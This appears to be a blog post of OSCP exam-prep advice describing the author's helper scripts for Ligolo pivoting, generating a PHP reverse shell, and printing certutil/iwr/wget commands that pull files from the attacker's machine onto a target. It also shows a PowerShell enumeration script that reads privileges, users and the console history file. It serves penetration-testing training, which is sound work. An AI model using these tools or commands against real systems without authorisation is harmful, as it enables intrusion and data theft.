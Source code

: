 Btw, as of November 2024, [Claude](https://claude.ai/) is better for code, but the free tier is more limited by message, so sadly you might want to skip the "Perfect, that works, thank you" messages. I tend to be polite to chat bots, but hey I'm from the South. 

### Automate As Much As You Can By Writing Your Own Scripts
Automate by forcing your robot friends to write your own scripts!  Yeah, you'll learn more trying to write every line yourself, but you'll learn nothing if you give up because it's too confusing. I have a few custom scripts on my [GitHub](https://github.com/pentestpop/PopScripts), so you can get more details from the README there, but basically if I know some task is going to require multiple commands, or long commands I might mistype, I (or [someone](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*GmDjVtGv2I7A8-X5vC4tAQ.jpeg)) create a script which runs the commands and echos anything I might need to paste into another window. Examples:
- `liggy` starts Ligolo, asks for what subnet to pivot into, and then prints commands to run into the shell on the target.
- `ivan` prompts the user for a IP and Port before generating a new copy of Ivan Sincek's [PHP-Reverse-Shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) in the working directory.
- `served` prints certutil, iwr, and wget commands to be run on a remote target to download files from your machine using the `tun0` IP. So `served -f file.txt` returns `iwr -uri http://tun0/file.txt -o file.txt` and so on. 
Feel free to copy these or fork them or whatever. But probably you can find some other examples. Losing focus is death by a thousand cuts, make everything as easy on yourself as possible.

#### Checklists
For the OSCP specifically, there's kind of a limited number of pathways you can take to exploit a machine. And it's good advice to **Enumerate Deeply, Exploit Simply**. Check the practice tests they give you, the exploits simply are not that complicated. If you're struggling, you probably missed something relatively simple. One way to make sure you catch all the low hanging fruit is to run scripts which give you all the output. Once again, I have some of this on my [GitHub](https://github.com/pentestpop/verybasicenum). I noticed that I forgot to run a UDP scan a few times, so I made a script for nmap called `vbnmap` (very basic nmap). It doesn't have all the bells and whistles of [AutoRecon](https://github.com/Tib3rius/AutoRecon) for example, but it's fast, it automatically creates an output file, and you won't miss anything. It runs: 
- A simple TCP scan to the terminal so you can get started on the commonly used ports
- A simple full port (`-p-`) TCP scan
- A more detailed TCP scans with only the ports from the full TCP scan
- A UDP scan
- And it creates an output file with all this information. Simple. 

I also have [verybasicenum](https://github.com/pentestpop/verybasicenum) scripts for `.bat`, `.ps1`, and `.sh` that print out the lowest hanging fruit like the users, history files, the common directories where there might be an unusual binary like `/opt` for Linux or `C:\Program Files` for Windows. If you see something that doesn't belong, there's a pretty good chance it's involved. For example, the `.ps1` script runs:
```
whoami
whoami /priv
whoami /groups
net user $env:USERNAME
net user /domain
systeminfo
ipconfig
Get-ChildItem C:\
Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*' | Select-Object DisplayName
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*'
Get-Process
Get-Content "$HOME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

